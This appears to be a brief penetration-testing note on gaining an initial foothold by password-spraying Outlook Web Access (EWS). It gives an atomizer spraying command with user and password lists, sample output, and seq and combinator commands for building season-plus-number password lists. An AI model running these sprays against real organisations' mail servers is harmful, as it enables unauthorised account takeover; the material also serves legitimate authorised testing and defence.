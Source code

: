 ```yaml
---
date: 2019-04-24
title: Initial Foothold Through Outlook Password Bruteforcing
description: Notes for password bruteforcing
categories: InitialCompromise
---
```


## Password Attacks Against OWA EWS
Password Bruteforce attacks against OWA EWS:

./atomizer owa https://ip/ews passwordlist.txt userslist.txt --interval 0:00:00
```
[*] Starting spray at 2019-08-02 13:24:40 (Invalid Credentials)
[-] Authentication failed: user1:Sumer2019 (Invalid credentials)
```

To generate a wordlist which suits users within an organisation better (default domain password policy and common organisation passwords), hashcat-utils combinator tool can be used to combine two wordlists together, for instance one wordlist which contains common words such as seasons and months and the other wordlist can contain numbers ranging from two to four for instance 2019. To acheive this the seq tool can be used:

```
seq 00 99 > twonumbers.txt
seq 0000 9999 > fournumbers.txt
```

Then the combinator tool can be used to combine these together:

```
./combinator words.txt fournumbers.txt > passlist.txt
```


